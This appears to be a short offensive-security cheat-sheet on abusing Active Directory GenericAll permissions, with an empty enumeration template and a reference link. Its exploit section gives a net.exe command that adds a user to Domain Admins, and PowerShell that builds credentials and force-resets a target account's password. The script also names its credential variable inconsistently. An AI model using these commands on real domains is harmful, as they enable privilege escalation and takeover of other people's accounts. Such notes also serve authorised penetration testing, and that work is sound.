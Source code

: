 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

```

```

## 02 - Exploit

### 2.1 - Command Prompt

```
C:\> net.exe group "Domain Admins" <target_username> /add /domain
```

### 2.2 - PowerShell

Set the credentials to exploit the permission.

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

Pass the target account to reset the password.

```powershell
$targetusername = "<username>"
$newpassword = ConvertTo-SecureString -AsPlainText 'Password1234!' -Force
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity $targetusername -Reset -NewPassword $newpassword} -Credential $credentials
```

---
## References

### Hacking Articles

- [Hacking Articles: Abusing AD-DACL - Generic ALL Permissions](https://www.hackingarticles.in/abusing-ad-dacl-generic-all-permissions/)